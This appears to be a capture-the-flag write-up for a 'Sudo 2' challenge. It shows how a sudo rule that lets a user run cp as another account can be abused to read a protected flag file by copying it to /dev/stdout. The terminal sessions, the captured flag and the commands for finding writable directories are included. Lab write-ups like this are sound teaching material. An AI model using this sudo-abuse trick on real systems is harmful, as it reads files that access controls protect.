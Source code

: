 # Sudo 2

## Write-UP

When intering the instance, we can find the `flag.txt` file in the current directory, but unfortunatly, we can't read it. Let's find out what we can do sith sudo :

```
ctf@sudo-2-796c46749d-phhfg:~$ sudo -l
Matching Defaults entries for ctf on sudo-2-796c46749d-phhfg:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ctf may run the following commands on sudo-2-796c46749d-phhfg:
    (ctf-cracked) /usr/bin/cp
```

As we can see here, we can execute `cp` command with the `ctf-cracked` user priviledges, so we can read the file with those priviledges. The only thing remainning is to find a right destination to copy to

```
ctf@sudo-2-796c46749d-phhfg:~$ ls -l /
total 56
lrwxrwxrwx   1 root root    7 Nov 30 02:04 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  360 Dec 21 11:47 dev
drwxr-xr-x   1 root root 4096 Dec 20 19:25 etc
drwxr-xr-x   1 root root 4096 Dec 20 19:25 home
lrwxrwxrwx   1 root root    7 Nov 30 02:04 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Nov 30 02:04 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Nov 30 02:04 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Nov 30 02:04 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Nov 30 02:04 media
drwxr-xr-x   2 root root 4096 Nov 30 02:04 mnt
drwxr-xr-x   2 root root 4096 Nov 30 02:04 opt
dr-xr-xr-x 254 root root    0 Dec 21 11:47 proc
drwx------   2 root root 4096 Nov 30 02:07 root
drwxr-xr-x   1 root root 4096 Dec 21 23:32 run
lrwxrwxrwx   1 root root    8 Nov 30 02:04 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Nov 30 02:04 srv
dr-xr-xr-x  13 root root    0 Dec 21 11:47 sys
d-wx-wx-wt   1 root root 4096 Dec 21 22:39 tmp
drwxr-xr-x   1 root root 4096 Nov 30 02:04 usr
drwxr-xr-x   1 root root 4096 Nov 30 02:07 var
```

Unfortunatly, no destination is available for us to copy to, for example :

```
ctf@sudo-2-796c46749d-phhfg:~$ sudo -u ctf-cracked cp ./flag.txt /usr
cp: cannot create regular file '/usr/flag.txt': Permission denied
```

But, with a little trick, we can actually instead of copying to a certain destination, stdout the content of the file :

```
ctf@sudo-2-796c46749d-rnksq:~$ sudo -u ctf-cracked cp ./flag.txt /dev/stdout
[sudo] password for ctf: 
shellmates{Y0u_do1ng_Job_W1Th_suDO_L3TS_$3e_For_TH3_N3XT_On3}
```

**Note :** note that you can copy the `flag.txt` to other folders like :
 
 - `/tmp`
 - `/dev/shm`
 - `/run/lock`

But unfortunatly, can't be read :

```
ctf@sudo-2-796c46749d-sz72m:~$ sudo -u ctf-cracked cp /home/ctf/flag.txt /tmp
[sudo] password for ctf
ctf@sudo-2-796c46749d-sz72m:~$ cat /tmp/flag.txt
cat: /tmp/flag.txt: Permission denied
ctf@sudo-2-796c46749d-sz72m:~$ chmod 777 /tmp/flag.txt
chmod: changing permissions of '/tmp/flag.txt': Operation not permitted
ctf@sudo-2-796c46749d-sz72m:~$ ls -l /tmp
ls: cannot open directory '/tmp': Permission denied
```

```
ctf@sudo-2-796c46749d-sz72m:~$ sudo -u ctf-cracked cp /home/ctf/flag.txt /dev/shm
ctf@sudo-2-796c46749d-sz72m:~$ ls -l /dev/shm
total 4
-r-------- 1 ctf-cracked ctf-cracked 61 Dec 26 19:24 flag.txt
ctf@sudo-2-796c46749d-sz72m:~$ cat /dev/shm/flag.txt
cat: /dev/shm/flag.txt: Permission denied
```


## Flag

shellmates{Y0u_do1ng_Job_W1Th_suDO_L3TS_$3e_For_TH3_N3XT_On3}

## More Information

https://askubuntu.com/questions/746818/terminal-list-all-directories-for-which-a-user-or-group-has-write-permission
```
ctf@sudo-2-796c46749d-phhfg:~$ find -type d \( \( -user ctf-cracked -perm /u=w \) -o \( -group ctf-cracked -perm /g=w \) -o -perm /o=w \)
ctf@sudo-2-796c46749d-phhfg:~$ find -type d \( \( -user ctf -perm /u=w \) -o \( -group ctf -perm /g=w \) -o -perm /o=w \)
```

```
find -type d \( \( -user ctf -perm /u=w \) -o \( -group ctf -perm /g=w \) \)
```